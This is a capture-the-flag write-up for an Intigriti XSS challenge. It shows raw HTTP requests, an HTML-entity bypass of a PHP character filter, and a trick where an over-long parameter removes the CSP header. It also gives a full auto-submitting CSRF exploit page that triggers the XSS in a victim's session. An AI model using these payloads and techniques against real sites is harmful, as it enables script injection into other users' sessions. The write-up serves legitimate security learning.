










## Write-up

### Challenge Analysis

Opening the challenge page, we are greeted with a simple form.



Examining the source revealed no signs of JavaScript code, so the sink must be elsewhere.



Submitting the form with some arbitrary values (`hello` for "PlainText" and `md5` for "Hashing algorithm"), we get the following response:



The md5 hash is indeed of the supplied value `hello`. So let's try entering a simple XSS payload `` in both of these fields:



As seen from above, the `Hashing algorithm` field is using PHP [hash_file()](https://www.php.net/manual/en/function.hash-file.php) at the back-end, and the XSS payload does not trigger here. However, the XSS payload is nearly injected into the "PlainText" field except that our `onerror`'s value got replaced. This sanitization logic was provided to us in the previous screenshot:

```php
$stringa='/[(\`\)]/';
$variabile=preg_replace($stringa,'NotAllowedCaracter',$YourPayload);
```

With the regex used with [preg_replace()](https://www.php.net/manual/en/function.preg-replace.php), we are not allowed to use brackets nor backticks. However, we are able to bypass this by encoding these characters using [HTML entities](https://developer.mozilla.org/en-US/docs/Glossary/Entity). Let's encode the `()` in our original payload and it will now look like: ``.



Notice that our XSS payload is now as expected, but a new problem arises: [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP). This mitigates our basic XSS payload and we have to find ways to bypass it. We first have to look at the CSP policy that was sent in the HTTP response:

```http
HTTP/1.1 200 OK
...
content-security-policy: default-src 'none'; style-src 'nonce-5e05f7032c49f6f9667962037c1c8ca18115c037'; script-src 'nonce-5e05f7032c49f6f9667962037c1c8ca18115c037'; img-src 'self'
```

To help us better visualize if the policy has any flaws or gotchas, we can make use of [https://csp-evaluator.withgoogle.com/](https://csp-evaluator.withgoogle.com/).



The policy looks mostly correct as we cannot inject arbitrary `<script>` tags since a valid nonce is required each time the page is requested. We are also unable to insert inline JavaScript events such as `onload`, `onerror`, etc. since there is a lack of `unsafe-inline`. Finally, even though we are able to inject a `<base>` tag, this challenge does not import any form of JavaScript files at all.

This CSP policy is pretty sturdy for this challenge. Perhaps there is a different way?

---

Let's re-examine the request parameters that are sent when the form is submitted:

```http
POST /challenge/LoveReceiver.php HTTP/1.1
Host: challenge-0322.intigriti.io
Cookie: PHPSESSID=fvetnfcnhjv0o7ng13n3scq0me
...

token=a59ac904a1f98702776212653d74d0d3da7a4eadf4321092725c11b4a6ce6c72&FirstText=%3Cimg+src%3Dx+onerror%3Dalert%26lpar%3B1%26rpar%3B%3E&Hashing=%3Cimg+src%3Dx+onerror%3Dalert%281%29%3E
```

`token` is set to a 64-character string, `FirstText` and `Hashing` are set based on our input. After testing around for abit, I found that:
1. `token` accepts any arbitrary string as long as it is exactly 64-characters long
2. `PHPSESSID` **cookie** has to be present and the value can be any string of at least 1-character long

If either of these conditions are not fulfilled, then the server responds with a 403 status code. Thus, such a request is still valid:

```http
POST /challenge/LoveReceiver.php HTTP/1.1
Host: challenge-0322.intigriti.io
Cookie: PHPSESSID=x
...

token=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&FirstText=%3Cimg+src%3Dx+onerror%3Dalert%26lpar%3B1%26rpar%3B%3E&Hashing=%3Cimg+src%3Dx+onerror%3Dalert%281%29%3E
```

Now, remember how entering a non-valid hashing algorithm revealed some verbose warning messages by PHP? What if the input string is a lengthy one?

From a "normal" string:



To a "long" string:



Notice anything different?

The `content-security-policy` header is **no longer returned** in the response header for the second request. This means that our XSS payload would work!



---

Since we have the XSS working, it is time to craft an CSRF-based exploit. The following HTML file should be hosted on an attacker-controlled domain:

```html
<html>
  <body>
	<script>
		function submit() {
			document.forms[0].submit();
		}
		
		function exploit() {
			var newTab = window.open("https://challenge-0322.intigriti.io/challenge/LoveSender.php", "_blank");
			setTimeout(submit, 5000);
		}
	</script>

	<button onclick='exploit()'>Click me</button>
    <form action="https://challenge-0322.intigriti.io/challenge/LoveReceiver.php" method="POST">
      <input type="hidden" name="token" value="aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" />
      <input type="hidden" name="FirstText" value="&lt;img&#32;src&#61;&quot;happy&#46;gif&quot;&#32;onload&#61;alert&amp;lpar&#59;document&#46;domain&amp;rpar&#59;&gt;" />
      <input type="hidden" name="Hashing" value="aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" />
    </form>
  </body>
</html>
```

This relies on user interaction as they would need to click on the "Click me" button first. By doing so, the JavaScript in this file would open a new tab to the [https://challenge-0322.intigriti.io/challenge/LoveSender.php](https://challenge-0322.intigriti.io/challenge/LoveSender.php) page (the landing page containing the form). This step is essential as visiting this page would grant the victim a valid `PHPSESSID` cookie, which is required by the `LoveReceiver.php` page (vulnerable page) before the XSS payload would even load.

> ⚠ Furthermore, the `PHPSESSID` cookie was set without the [SameSite](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie/SameSite) attribute. This means that modern browsers such as Chrome and FireFox would implement a [2-minute buffer](https://hacks.mozilla.org/2020/08/changes-to-samesite-cookie-behavior/) window before setting this attribute as `SameSite=Lax`. 

Once a valid `PHPSESSID` cookie is obtained, we have 2 minutes before the `SameSite=Lax` setting kicks in, [preventing cross-site POST requests from sending cookies](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie/SameSite#lax). Now we have to quickly send our `POST` request to trigger the XSS payload. The HTML file above automatically sends this `POST` request after a 5-second delay (to ensure that the new cookie from the opened tab is processed). When the request is sent successfully, the XSS should trigger in the victim's context.

Here is the exploit in action:



---

## Further Reading
1. https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
2. https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie/SameSite
3. https://stackoverflow.com/a/8028987
